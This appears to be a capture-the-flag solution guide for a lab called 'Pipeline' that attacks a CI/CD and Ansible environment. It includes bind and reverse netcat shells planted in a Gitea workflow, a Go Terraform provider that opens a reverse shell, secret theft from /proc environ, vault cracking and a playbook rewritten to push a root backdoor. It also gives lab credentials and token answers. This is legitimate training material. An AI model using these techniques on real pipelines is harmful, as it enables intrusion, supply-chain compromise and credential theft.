# Pipeline

*Solution Guide*

## Getting Started

You start this challenge with creds to the `sshserver`.
You can login as `user1:password1`.
Note: The `gitea` container can take a few minutes to spin up, so if the `gitea` web page is not responding then you may need to wait a little longer.

```bash
#on kali
ssh user1@sshserver
# password: password1
```

## Token 1
*Survey the `sshserver` for useful information.*

Now that we are on the `sshserver`, we can enumerate the network.
If we run an nmap scan on the internal `sshserver` interface, we will see a number of systems on the network.
We can see `gitea`, `git-runner`, and `controller`.

```bash
#on sshserver
nmap <internal ip address>
```



If we shift our focus to surveying the `sshserver`, we will find a backups folder that has a `.git` repo inside.

```bash
#on sshserver
ls -la /home/user1/backups/
```



Transfer `.git` to kali.

```bash
#on kali
scp -r user1@sshserver:backups/.git .git
```

Then show git logs.

```bash
git log
git show COMMIT_HASH #replace COMMIT_HASH with the commit hash for "Update Inventory and Add vault"
```





We see an ansible vault file in one of the commits. Copy the vault content to a local `vault.yml` file.
Remove any leading `+` characters from the diff output.



Use `ansible2john` to create a hash that john can crack, and save it to a file.
Use `john` on the hash file to get the vault password.
Decrypt the vault with the cracked password.

```bash
ansible2john vault.yml > hash
john hash
ansible-vault decrypt vault.yml
cat vault.yml
```



We see creds for a git user and the first token.

`test-user:gityourmoneyup`

### Answer

The value of Token 1 is `PCCC{Token_in_Vault}` in this case.

## Token 2
*Compromise the CI/CD pipeline to escalate your privileges.*

From the nmap scan in Token 1 we discovered a host called `gitea` on the internal network.
We can use the `test-user:gityourmoneyup` creds from the vault to authenticate to the `gitea` server.
Since `gitea` is only accessible from the internal network, we need to forward a local port from `kali` through the `sshserver` to reach it.

```bash
#on kali
ssh user1@sshserver -L 8080:gitea:8080
# password: password1
```

Browse to `http://localhost:8080` on `kali` and sign in to `gitea` with `test-user:gityourmoneyup`.



We see two projects. 
If we look at both projects we can see that they both contain workflow jobs.
If we click on one of the jobs we can see information about the job.
We notice that the runner label for the test project is the same as the runner label for the dev project.
The runner label is `shared`, which indicates that the dev and test projects use the same runner.
We see that dev `variable-check-job` runs every minute, with secrets passed in through the environment.
These secrets are `DEV_USER`, `DEV_PASS`, `DEV_PAT` and `TOKEN2`.
We also see that the dev `variable-check-job` runs a script to check if `"dev vars are passed in"`. 
We can assume that this script is just checking to see if those secrets exist in the environment when the job runs.







We can check our permissions for these projects by looking at the actions tab.
If we click on the test project and then on the actions tab and then click on `test-ci.yml` or `test-commit`, we will be given an option to run the job again.
However, if we do the same for the dev project, we will not be given this option.
This means that we have `write` access to the test repo and `read` access to the dev repo.





With this information, we can look into taking advantage of shared runners and CI/CD variables.
We would like to view the variables in the dev job however we do not have permissions to write to the dev project.
However, we can try to open a shell on the runner via a test job. Once on the runner, we can then leak the variables from the dev job. 

We can download and examine the repo on `sshserver`.
First, clone the test repo and make a new branch.

```bash
#on sshserver
cd ~
git clone http://gitea:8080/root/test.git
```

```bash
cd test
git checkout -b test-branch
```



Then we need to make two changes to `test-ci.yml`.
The workflow currently triggers on pushes to `main`, so we need to change the branch to `test-branch`.
We also need to add a netcat bind shell command so we can get a shell on the runner when the job executes.

```bash
#on sshserver
sed -i 's/main/test-branch/' .gitea/workflows/test-ci.yml
```

Then we need to add a line to open a shell on the runner.

```bash
# add this line to test-ci.yml
nc -vlp 4444 -e /bin/bash 
```

The `run:` block in `.gitea/workflows/test-ci.yml` should look like this:

```yaml
      - name: Run tests
        run: |
          echo "Running unit tests..."
          echo "Code coverage is 90%"
          nc -vlp 4444 -e /bin/bash
```



In order to commit the changes we need to add an email and username.
This can be anything so we'll just use the example name and email.
Then we can add our changes, commit them, and push to our branch.

```bash
git config --global user.email "you@example.com"
git config --global user.name "Your Name"
git add .
git commit -m "shell"
git push origin test-branch
```



This should open a bind shell on the runner.
Once the job runs, connect to the listener on `git-runner`.

```bash
nc -v git-runner 4444
```



After connecting to our shell, we still have another step to take before we can leak the dev job variables.
Our current shell is blocking the dev job from running.
So what we need to do is create an additional, backgrounded shell that can run outside of the context of our current shell process.
This way we can close our current connection, allowing the dev job to run, and then connect to the new shell that will survive the death of our current netcat process.
Before we do this, we should change our working directory.
We may notice that we are in a directory under `/home/runner/.cache`.
This is an ephemeral directory and it will be deleted when our current netcat shell closes, thus putting us in a non-existant directory.
This can cause a variety of issues, so let's first change to a different directory like `/tmp`.
We can then create another netcat shell in the background using `nohup` and `setsid`.

```bash
#on git-runner
cd /tmp
nohup setsid nc -vklp 5555 -e /bin/bash &
```

Then we can use `Ctrl + C` to exit our current shell.
Next we can connect to the new shell.

```bash
#on sshserver
nc -v git-runner 5555
```



Now we can try to leak the dev variables.
We can try to see if the environment variables exists by running `env` but we won't find them. 
The variables only gets passed into the dev job, so if we dump the environment of a process started by the dev job, then we should be able to see the dev variables.
We know the dev job triggers the sleep function so we can dump the environment of the sleep process.
We can run the following command to wait for the sleep process to run and capture the process environment in a file called `out.txt`.

```bash
#on git-runner
while true; do if [ -s /tmp/out.txt ];then echo "Done"; break; else cat /proc/$(pgrep sleep)/environ 2>/dev/null | tr '\0' '\n' | grep -E "DEV_USER|DEV_PASS|DEV_PAT|TOKEN2" > /tmp/out.txt;fi;done;cat /tmp/out.txt
```

After the script runs, we will see the dev variables and the second token.



### Answer

The value of Token 2 is `PCCC{dev_workflow_token}` in this case.

## Token 3: 
*Take advantage of the `infra runner (controller)` to extend your access deeper into the network.*
*The token will be in `/tmp/token3.txt` on the `infra runner`.*

With our new dev credentials, we can log in to `gitea` as `dev-user`.
We see the `dev` project as well as an `infra` project.





If we look at the infra repo we will see that this repo also contains a job in `infra-ci.yml`.
We see that this job uses `runs-on: infra`, which is a different runner label than the `shared` runner used by the test and dev repos. Recall from our nmap scan in Token 1 that we discovered a host called `controller` on the network — this is the `infra` runner.
We see that the infra job first clones the dev repo, copies the contents of the providers directory to the `.terraform.d/plugins` directory, and then copies a `main.tf` file to the working directory.
The job then runs `terraform init` and `terraform plan`.
We can take advantage of this by uploading our own terraform provider to the `providers` folder and our own `main.tf` to the `consumers` folder.



First we need to clone the dev and infra projects.

```bash
#on sshserver
cd ~
git clone http://gitea:8080/root/dev.git
```

```bash
git clone http://gitea:8080/root/infra.git
```



Terraform files are written in go, so let's start by writing a `main.go` file with the following contents.
When `terraform plan` is run, our provider file will launch a reverse shell back to our `sshserver` on `port 7777`.
Let's navigate to the `~/tf-go-mod` directory where we have terraform modules pre-installed.

```bash
#on kali
cd ~/tf-go-mod
```

Next we can create `main.go` and `main.tf` files.

```go
//main.go
package main

//import net, exec, and terraform modules
import (
 "net"
 "os/exec"

 "github.com/hashicorp/terraform-plugin-sdk/v2/helper/schema"
 "github.com/hashicorp/terraform-plugin-sdk/v2/plugin"
)

func revshell() {
 //call back to sshserver on port 7777
 c, _ := net.Dial("tcp", "sshserver:7777")
 //create a shell process 
 cmd := exec.Command("/bin/bash")
 //send shell stdin, stdout, and stderr over the tcp connection
 cmd.Stdin, cmd.Stdout, cmd.Stderr = c, c, c
 //run the shell
 cmd.Run()
 //cose the tcp connection when done
 c.Close()
}

func main() {
 //execute revshell when program starts
 revshell()
 //start the terraform plugin server
 plugin.Serve(&plugin.ServeOpts{
   ProviderFunc: func() *schema.Provider {
     return &schema.Provider{
     }
   },
 })
}

```

Next we will need a `main.tf` file that will execute our provider.

```go
//main.tf
terraform {
 required_providers {
   revshell = {
     source  = "local/revshellprovider/revshell"
     version = "0.1.0"
   }
 }
}

provider "revshell" {
}

resource "revshell_resource" "revshell" {
}

```

Now we will build our provider. The build will default to being called `tf-go`.
Note: This build may take a few minutes to compile.

```bash
#on kali
GOOS=linux GOARCH=amd64 CGO_ENABLED=0 go build
```

We can rename `tf-go` to `terraform-provider-revshell_v0.1.0`.
Next we will create the proper directory structure to hold our provider.
Then we will transfer our provider directory and our `main.tf` to `sshserver`.

```bash
mkdir -p local/revshellprovider/revshell/0.1.0/linux_amd64/
cp tf-go local/revshellprovider/revshell/0.1.0/linux_amd64/terraform-provider-revshell_v0.1.0
scp -r local user1@sshserver:dev/providers
scp main.tf user1@sshserver:dev/consumers
```




Open a nc listener on `sshserver` port `7777`.

```bash
#on sshserver
nc -lp 7777
```

Commit and push our files to the dev repo.

```bash
#on sshserver
cd ~/dev
git add .
git commit -m "provider and consumer"
git push origin main
```



The `infra-ci.yml` workflow runs on a cron schedule (`* * * * *`), so it may take up to a minute for the job to pick up our changes and execute the provider.
Once it does, we catch the shell on `port 7777`.
However we need to quickly create another shell because the current shell we are in is unstable and will close shortly.

```bash
#on controller
nohup setsid nc -kvlp 8888 -e /bin/bash &
```

We can use `Ctrl + C` to exit out of the current shell (or we can just wait because it will close on its own).
Next we can connect to our new shell.
Similar to our initial shell on `git-runner`, we are again in an ephemeral directory under `/home/runner/.cache`.
We will change our working directory to `/tmp` and then we will get the token in `/tmp/token3.txt`.

```bash
#on sshserver
nc -v controller 8888
```

```bash
cd /tmp
cat /tmp/token3.txt
```



### Answer

The value of Token 3 is `PCCC{infra_runner_controller_token}` in this case.

## Token 4 
*The ansibleadm user periodically runs ansible tasks. Use these tasks to deploy and execute the `custom_backdoor` on managed nodes.*
*Once you have executed `custom_backdoor` on the managed nodes, run the grader check at `http://grader`. Be sure not to alter any pre-existing ansible tasks or the grader check will fail*

We need to exploit an ansible job in order to deploy our backdoor to the nodes.
Looking around the filesystem on the `controller`, we find the `/opt/playbooks` directory.

```bash
#on controller
ls -la /opt/playbooks/
```

We see an `inventory.ini` file and two ansible playbooks.
We see that the managed nodes in the inventory file are called `ops1, ops2, and ops3`.
We also see that the `system_check_playbook.yml` is writeable.
Additionally, we see that there is a `vault.yml` file and a `vault_pass.txt` file.



If we look around the filesystem even more we will find the `/etc/ansible` directory that contains a file called `ansible.cfg`.

```bash
#on controller
cat /etc/ansible/ansible.cfg
```

Looking at the `ansible.cfg` file we will see that it has default values for `inventory` and `vault_password_file`.
This file also has comments that point to the structure of `vault.yml`, indicating that the vault file likely contains the password for the ops user.
This `ansible.cfg` file tells us that the `vault_pass.txt` file is used automatically to decrypt vault files that are specified in playbooks.
If the ops user is in the sudoers group, then ansible tasks can use the vault password to run as root.
Since we have a writeable playbook and a potential privesc vector, we can try to deploy our backdoor with root access across all of the ops stations.



First we need to download `custom_backdoor`. As noted in the challenge README, `custom_backdoor` is available for download from the grader web page at `http://grader`. The `grader` is accessible from both the `kali` network and the internal network, so we can curl it directly from the `controller`.

```bash
#on controller
curl http://grader/static/custom_backdoor -o /tmp/custom_backdoor
chmod +x /tmp/custom_backdoor
```

Next we want to edit `/opt/playbooks/system_check_playbook.yml` — this is the writeable playbook we found earlier.
Since our shell on the `controller` is a basic netcat shell without a proper TTY, editing files directly is difficult. Instead, we will write the modified playbook on `sshserver` (which has a full shell with editors like `vim` and `nano`) and then transfer it to the `controller` using `nc`.

Let's first read the current playbook contents so we know what to preserve.

```bash
#on controller
cat /opt/playbooks/system_check_playbook.yml
```

Now on `sshserver`, create a new file with the original playbook content plus our appended backdoor tasks.
We can also add lines to use the password in `vault.yml` to become root.
We use `async 10` and `poll 0` to execute the shell in the background so as not to hold up any other ansible tasks.
The full playbook file should look like this:

```yaml
- name: System Check on Ops Stations
  hosts: all
  vars:
    ansible_ssh_common_args: "-o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null"
  tasks:
    - name: Gather Facts
      ansible.builtin.gather_facts:
- name: Backdoor
  hosts: all
  become: true
  vars_files:
    - /opt/playbooks/vault.yml
  vars:
    ansible_become_password: "{{ ops_pass }}"
  tasks:
    - name: transfer backdoor
      ansible.builtin.copy:
        src: /tmp/custom_backdoor
        dest: /tmp/custom_backdoor
        mode: '0777'
    - name: execute shell
      ansible.builtin.shell: '/tmp/custom_backdoor &'
      async: 10
      poll: 0
```

Now we can transfer the file over to the `controller` and overwrite the playbook. 
We can use `nc` to transfer the file.

```bash
#on sshserver
cat system_check_playbook.yml | nc -lp 9999
```

```bash
#on controller
nc -v sshserver 9999 > /tmp/system_check_playbook.yml
```

```bash
cat /tmp/system_check_playbook.yml > /opt/playbooks/system_check_playbook.yml
```





Wait up to 15 seconds for the playbook to run. Then browse to `http://grader` on `kali` and click "Run Grader".
Note: The grader check may take up to 60 seconds to complete as it SSHes to the `controller` and runs an ansible playbook to verify the backdoor on all ops nodes. Wait for the result to appear on the page before clicking again.



### Answer

The value of Token 4 is `PCCC{playbook_overwrite_token}` in this case.

## Token 5
*Gain access to the `fileserver` and extract the `xcryptzor` binary. Analyze the file to find the token.*

Connect to the `custom_backdoor` on port 4444 on one of the ops stations.

```bash
#on controller
nc -v ops1 4444
```



Recall we saw the `tools_ftp_playbook.yml`.
It's possible this playbook runs a command to download tools from the `fileserver` via ftp.
If so, we may be able to find ftp creds in the logs on the ops stations.
We see that there is a syslog file present however only root can view it.
Here we can find the ftp creds.
Note: If we hadn't added the privesc commands in the playbook, we would not be able to read the syslog file and get the ftp creds.

```bash
#on ops1
grep ftp /var/log/syslog
```



Authenticate to the fileserver and download `xcryptzor`.
We can find the final token by simply running `strings`.

```bash
#on ops1
ftp fileserver
#enter ftp creds ftpuser:ftpeaceout
```

```bash
#in ftp prompt
get xcryptzor
bye
```

```bash
#on ops1
strings xcryptzor | grep PCCC
```



### Answer

The value of Token 5 is `PCCC{crypt_key_token}` in this case.
